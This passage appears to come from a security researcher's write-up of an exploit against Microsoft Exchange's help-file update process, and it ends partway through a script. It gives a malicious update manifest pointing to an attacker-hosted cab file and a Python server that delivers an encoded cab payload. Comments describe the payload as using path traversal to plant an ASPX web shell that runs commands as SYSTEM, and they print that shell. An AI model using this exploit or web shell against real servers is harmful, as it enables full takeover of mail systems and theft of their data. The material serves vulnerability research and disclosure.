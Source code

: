 This `poc.xml` manifest file contains the `CabinetUrl` hosting the malicious cab file along with the `Version` range that the update is targeting:

```xml
<ExchangeHelpInfo>
  <HelpVersions>
    <HelpVersion>
      <Version>15.2.1.1-15.2.999.9</Version>
      <Revision>1</Revision>
      <CulturesUpdated>en</CulturesUpdated>
      <CabinetUrl>http://192.168.0.56:8000/poc.cab</CabinetUrl>
    </HelpVersion>
  </HelpVersions>
</ExchangeHelpInfo>
```

I packaged up the manifest and `poc.cab` file delivery process into a small little python http server, `poc.py` that will also attempt access to the `poc.aspx` file with a command to be executed as SYSTEM:

```py
import sys
import base64
import urllib3
import requests
from threading import Thread
from http.server import HTTPServer, SimpleHTTPRequestHandler
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class CabRequestHandler(SimpleHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.endswith("poc.xml"):
            print("(+) delivering xml file...")
            xml = """<ExchangeHelpInfo>
  <HelpVersions>
    <HelpVersion>
      <Version>15.2.1.1-15.2.999.9</Version>
      <Revision>%s</Revision>
      <CulturesUpdated>en</CulturesUpdated>
      <CabinetUrl>http://%s:8000/poc.cab</CabinetUrl>
    </HelpVersion>
  </HelpVersions>
</ExchangeHelpInfo>""" % (r, s)
            self.send_response(200)
            self.send_header('Content-Type', 'application/xml')
            self.send_header("Content-Length", len(xml))
            self.end_headers()
            self.wfile.write(str.encode(xml))
        elif self.path.endswith("poc.cab"):
            print("(+) delivering cab file...")
            # created like: makecab /d "CabinetName1=poc.cab" /f files.txt
            # files.txt contains: "poc.aspx" "../../../../../../../inetpub/wwwroot/aspnet_client/poc.aspx"
            # poc.aspx contains: <%=System.Diagnostics.Process.Start("cmd", Request["c"])%> 
            stage_2  = "TVNDRgAAAAC+AAAAAAAAACwAAAAAAAAAAwEBAAEAAAAPEwAAeAAAAAEAAQA6AAAA"
            stage_2 += "AAAAAAAAZFFsJyAALi4vLi4vLi4vLi4vLi4vLi4vLi4vaW5ldHB1Yi93d3dyb290"
            stage_2 += "L2FzcG5ldF9jbGllbnQvcG9jLmFzcHgARzNy0T4AOgBDS7NRtQ2uLC5JzdVzyUxM"
            stage_2 += "z8svLslMLtYLKMpPTi0u1gsuSSwq0VBKzk1R0lEISi0sTS0uiVZKVorVVLUDAA=="
            p = base64.b64decode(stage_2.encode('utf-8'))
            self.send_response(200)
            self.send_header('Content-Type', 'application/x-cab')
            self.send_header("Content-Length", len(p))
            self.end_headers()
```